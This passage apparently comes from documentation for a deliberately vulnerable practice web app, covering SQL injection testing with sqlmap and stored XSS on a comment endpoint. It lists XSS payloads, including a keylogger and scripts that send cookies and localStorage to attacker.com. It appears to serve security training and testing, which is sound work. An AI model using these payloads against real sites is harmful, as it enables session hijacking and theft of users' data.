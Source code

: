 ### Automated Testing
```bash
# SQLMap testing
sqlmap -u "http://localhost:5000/login" --data "username=test&password=test" --dbs

# Custom script
python exploits/sqli_exploit.py
```

### Impact
- Authentication bypass
- Database enumeration
- Data extraction
- Potential database corruption

---

## 🔓 2. Cross-Site Scripting (XSS)

**Endpoint**: Product comments (`/add_comment`)  
**Parameter**: `comment`  
**Type**: Stored XSS

### Test Payloads
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')></iframe>
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

### Advanced Payloads
```html
<!-- Keylogger -->
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/keylog?key=' + String.fromCharCode(e.which));
}
</script>

<!-- Session stealing -->
<script>
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: 'cookies=' + document.cookie + '&storage=' + JSON.stringify(localStorage)
});
</script>
```

### Testing Steps
1. Navigate to any product page
2. Login with any credentials
3. Add malicious comment
4. Observe XSS execution
5. Test different payloads for filter bypass

---